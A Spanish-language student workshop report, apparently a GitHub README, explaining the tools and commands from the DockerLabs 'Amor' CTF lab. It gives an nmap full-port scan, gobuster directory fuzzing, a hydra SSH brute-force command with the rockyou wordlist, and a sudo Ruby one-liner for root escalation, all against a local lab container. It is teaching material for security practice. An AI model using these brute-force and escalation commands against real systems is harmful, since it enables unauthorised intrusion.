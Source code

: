 # Taller Habilidades en el Ciberespacio

## **Puntos a desarrollar**

1.	Realizar una investigación individual de cada una de las herramientas empleadas. Sintetice el resultado mediante un cuadro que explique su definición, funcionalidad y casos de uso.

2.	Explicar en detalle cada uno de los comandos empleados en el anterior CTF; realizando un desglose del mismo y citando al menos tres alternativas (si aplica) de variantes del comando para las herramientas empleadas, este punto amplia el ejercicio anterior.

3.	Realice un diagrama de flujo de todo el procedimiento realizado.

## **DESARROLLO**

1.	**HERRAMIENTAS EMPLEADAS**
   
| Herramienta | Definición | Funcionalidad | Casos de uso relevantes |
|-------------|-----------|--------------|-------------------------|
| **Docker** | Plataforma open-source de contenedores que aísla aplicaciones y sus dependencias | Empaqueta software en contenedores portátiles y reproducibles | Desarrollo ágil, despliegue continuo, pruebas consistentes |
| **Nmap** | Utilidad de escaneo de red y auditoría de seguridad | Detecta puertos, servicios, versiones y SO | Inventario de red, evaluación de vulnerabilidades, verificación de servicios |
| **Hydra** | Cracker de contraseñas rápido para múltiples protocolos | Ejecuta ataques de fuerza bruta automatizados en servicios remotos | Pentesting de autenticaciones SSH, FTP, HTTP, etc. |
| **netdiscover** | Escáner ARP activo/pasivo | Descubre hosts activos y sus direcciones MAC en la LAN | Reconocimiento rápido de dispositivos desconocidos en redes locales |
| **gobuster** | Herramienta de fuerza bruta para directorios y archivos web | Encuentra rutas/archivos ocultos usando diccionarios | Fuzzing de aplicaciones web, enumeración de infraestructura |
| **scp** | Protocolo seguro de copia de archivos sobre SSH | Transfiere archivos cifrados entre hosts locales/remotos | Respaldos, transferencia de evidencias forenses, despliegues seguros |
| **steghide** | Utilidad de esteganografía para imágenes/audio | Inserta o extrae datos ocultos dentro de archivos portadores | Análisis forense, ocultamiento legítimo de información sensible |
| **su / sudo** | Comandos de cambio de usuario y elevación de privilegios | Ejecuta órdenes como otro usuario o como root | Administración del sistema, escalada controlada de privilegios |

2.	**COMANDOS EMPLEADOS**
   
a) netdiscover
Comando usado:
Text: sudo netdiscover -i docker0 -r 172.17.0.0/24
•	Función: Escanea la interfaz docker0 en el rango de IPs 172.17.0.0/24 para detectar hosts activos.
•	Parámetros:
•	-i docker0: Especifica la interfaz de red.
•	-r 172.17.0.0/24: Rango de IP a analizar.
•	Variantes:
•	-P: Modo pasivo.
•	-s <intervalo>: Intervalo de escaneo.
Caso real alternativo:
Detección de dispositivos IoT conectados no autorizados en una red universitaria tras una jornada de mantenimiento.

b) nmap
Comando usado:
Text: sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2
•	Función: Escaneo rápido de todos los puertos TCP y detección de servicios/versiones.
•	Parámetros:
•	--min-rate 5000: Escaneo rápido.
•	-p-: Todos los puertos.
•	-sS: SYN scan.
•	-sV: Detección de versiones.
•	Alternativas: -O (SO), -A (escaneo avanzado), -sU (puertos UDP).
Caso real alternativo:
Verificación de exposición accidental de servicios tras actualización masiva de servidores web municipales.

c) gobuster
Comando usado:
Text: gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
•	Función: Fuerza bruta de rutas/directorios en un sitio web.
•	Parámetros:
•	dir: Fuerza bruta modo directorios.
•	-u: URL objetivo.
•	-w: Wordlist.
•	Variantes: -t (hilos), -x (extensiones).
Caso real alternativo:
Búsqueda de paneles de administración ocultos tras una auditoría de portales de compras en línea.

d) hydra
Comando usado:
Text: hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
•	Función: Fuerza bruta contra el servicio SSH.
•	Parámetros:
•	-l carlota: Usuario.
•	-P: Diccionario de contraseñas.
•	-t 10: Hilos de ataque.
•	Variantes: -L (lista de usuarios), -M (IPs), -s (puerto).
Caso real alternativo:
Simulación de ataque por diccionario a cuentas de empleados con credenciales débiles en una pequeña fintech bajo peritaje legal.

e) scp
Comando usado:
Text: scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor
•	Función: Transferencia segura de archivos vía SSH.
•	Parámetros:
•	-r: Carpetas recursivas.
•	-P <puerto>: Puerto específico.
Caso real alternativo:
Automatización del respaldo nocturno de archivos de configuración de routers en sucursales de una cadena de clínicas.

f) steghide
Comando usado:
Text: steghide --extract -sf imagen.jpg
•	Función: Extrae datos embebidos en imágenes/audio.
•	Parámetros:
•	--extract: Extrae.
•	-sf: Archivo portador.
•	Variantes: --embed (ocultar), -p (contraseña).
Caso real alternativo:
Extracción de datos ocultos detectados en archivos multimedia tras un informe de posible fuga de información en una institución educativa.

g) su / sudo
Comandos usados:
•	su oscar: Cambia a usuario 'oscar'.
•	sudo /usr/bin/ruby -e 'exec "/bin/bash"': Eleva privilegios a root mediante Ruby.
•	Parámetros:
•	-c <comando>: Ejecuta un comando específico.
•	-u <usuario>: Ejecuta como otro usuario.
Caso real alternativo:
Investigación forense para determinar actividades sospechosas realizadas con cuentas privilegiadas en servidores de infraestructura crítica.

# **Ejemplos prácticos y salidas esperadas**

| Herramienta   | Comando de ejemplo                                               | Salida esperada resumida                                   |
|---------------|------------------------------------------------------------------|------------------------------------------------------------|
| netdiscover   | `sudo netdiscover -i eth0 -r 192.168.1.0/24`                     | Lista de IPs detectadas, MAC y fabricantes                 |
| nmap          | `sudo nmap -sS -p 22,80 192.168.1.10`                            | Detalle: puerto 22 (ssh) abierto, puerto 80 (http) cerrado |
| gobuster      | `gobuster dir -u http://192.168.1.15/ -w /tmp/miniwordlist.txt`  | `/admin (Status: 301)`, `/login (Status: 200)`             |

3.	** DIAGRAMA DE FLUJO DEL EJERCICIO**

```mermaid
graph TD
    A[Inicio: Acceder a DockerLabs.es]
    B[Descargar el reto 'Amor']
    C[Copiar laboratorio a Kali con SCP]
    D{¿Docker instalado?}
    E[Instalar Docker si es necesario]
    F[Desplegar con ./auto_deploy.sh]
    G[Máquina creada en 172.17.0.2]
    H[Revisar interfaces con ip add]
    I[Detectar hosts con netdiscover]
    J[Escanear puertos con nmap]
    K[Puertos abiertos: 22 y 80]
    L[Acceso web en puerto 80]
    M[Fuzzing con gobuster]
    N[Usuarios encontrados: carlota y juan]
    O[Bruteforce SSH con hydra]
    P[Credenciales encontradas]
    Q[Descargar imagen.jpg con scp]
    R[Analizar imagen con steghide]
    S[Extraer datos con base64 -d]
    T[Nuevas credenciales]
    U[Cambiar a usuario oscar]
    V[Verificar sudo con sudo -l]
    W[Escalar privilegios con sudo ruby]
    X[Obtener root con whoami]
    Y[Fin]

    A --> B --> C --> D
    D -- No --> E --> F
    D -- Sí --> F
    F --> G --> H --> I --> J --> K --> L --> M --> N --> O --> P --> Q --> R --> S --> T --> U --> V --> W --> X --> Y
```

# **REFERENCIAS**

1.	CBT Nuggets. (s.f.). Nmap Flags: What They Are & When to Use Them. Recuperado de https://www.cbtnuggets.com/blog/certifications/security/nmap-flags-what-they-are-when-to-use-them
2.	StationX. (s.f.). The Ultimate Nmap Cheat Sheet. Recuperado de https://www.stationx.net/nmap-cheat-sheet/
3.	CyberKraft Training. (2023). The Ultimate Nmap Cheat Sheet. Recuperado de https://cyberkrafttraining.com/blog/ultimate-nmap-cheat-sheet/
4.	Armur AI. (2023). Brute Forcing SSH Connections with Hydra [Tutorial]. Recuperado de https://armur.ai/tutorials/hydra/hydra/brute_force_ssh_connections/
5.	Kali Linux. (s.f.). Hydra | Kali Linux Tools. Recuperado de https://www.kali.org/tools/hydra/
6.	Mermaid.js. (s.f.). Mermaid Live Editor. Recuperado de https://mermaid.live/


